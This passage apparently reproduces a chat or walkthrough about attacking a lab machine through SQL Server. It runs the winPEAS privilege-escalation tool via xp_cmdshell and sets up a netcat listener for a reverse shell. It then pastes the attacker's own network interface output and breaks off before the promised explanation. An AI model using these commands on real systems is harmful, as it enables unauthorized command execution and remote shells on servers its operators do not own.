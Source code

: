 ### Option 1: Run directly through xp_cmdshell
```sql
EXEC xp_cmdshell "powershell -c cd C:\Users\sql_svc\Downloads; .\winPEASx64.exe"
```

However, this might not show all output clearly due to SQL Server's output limitations.

### Option 2: Get a proper shell first (recommended)

Set up a netcat listener on your attack machine:
```bash
nc -lvnp 443
```

```bash
1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN group default qlen 1000
    link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
    inet 127.0.0.x/x scope host lo
       valid_lft forever preferred_lft forever
    inet6 ::1/128 scope host
       valid_lft forever preferred_lft forever
2: enp2s0: <NO-CARRIER,BROADCAST,MULTICAST,UP> mtu 1500 qdisc mq state DOWN group default qlen 1000
    link/ether a8:5e:45:12:xx:xx brd ff:ff:ff:ff:ff:ff
3: eno1: <NO-CARRIER,BROADCAST,MULTICAST,UP> mtu 1500 qdisc fq_codel state DOWN group default qlen 1000
    link/ether a8:5e:45:12:65:8f brd ff:ff:ff:ff:ff:ff
    altname enp0s31f6
4: wlp3s0: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc noqueue state UP group default qlen 1000
    link/ether 50:eb:71:76:3a:45 brd ff:ff:ff:ff:ff:ff
    inet 10.0.0.186/24 brd 10.0.0.255 scope global dynamic noprefixroute wlp3s0
       valid_lft 119966sec preferred_lft 119966sec
    inet6 2601:681:8400:9a20:a7f1:c9cf:3220:4ede/64 scope global temporary dynamic
       valid_lft 301sec preferred_lft 301sec
    inet6 2601:681:8400:9a20:965d:bdd1:4f28:ddd2/64 scope global temporary deprecated dynamic
       valid_lft 301sec preferred_lft 0sec
    inet6 2601:681:8400:9a20:ca9b:abca:d67f:c754/64 scope global temporary deprecated dynamic
       valid_lft 301sec preferred_lft 0sec
    inet6 2601:681:8400:9a20:1741:e355:97e:a754/64 scope global temporary deprecated dynamic
       valid_lft 301sec preferred_lft 0sec
    inet6 2601:681:8400:9a20::c236/128 scope global dynamic noprefixroute
       valid_lft 47798sec preferred_lft 47798sec
    inet6 2601:681:8400:9a20:256f:9fe7:b871:7cf3/64 scope global temporary deprecated dynamic
       valid_lft 301sec preferred_lft 0sec
    inet6 2601:681:8400:9a20:3a04:a2a1:1ba:412d/64 scope global temporary deprecated dynamic
       valid_lft 301sec preferred_lft 0sec
    inet6 2601:681:8400:9a20:dc5e:e575:f784:b1ef/64 scope global dynamic mngtmpaddr noprefixroute
       valid_lft 301sec preferred_lft 301sec
    inet6 fe80::2a37:e438:b572:80bd/64 scope link noprefixroute
       valid_lft forever preferred_lft forever
5: docker0: <NO-CARRIER,BROADCAST,MULTICAST,UP> mtu 1500 qdisc noqueue state DOWN group default
    link/ether 02:42:70:f8:60:85 brd ff:ff:ff:ff:ff:ff
    inet 172.17.0.1/16 brd 172.17.255.255 scope global docker0
       valid_lft forever preferred_lft forever
6: tun0: <POINTOPOINT,MULTICAST,NOARP,UP,LOWER_UP> mtu 1500 qdisc fq_codel state UNKNOWN group default qlen 500
    link/none
    inet 10.10.16.6/23 scope global tun0
       valid_lft forever preferred_lft forever
    inet6 dead:beef:4::1004/64 scope global
       valid_lft forever preferred_lft forever
    inet6 fe80::656b:5512:6131:14ab/64 scope link stable-privacy
       valid_lft forever preferred_lft forever
```
Here’s a breakdown of the IP addresses and their purposes:
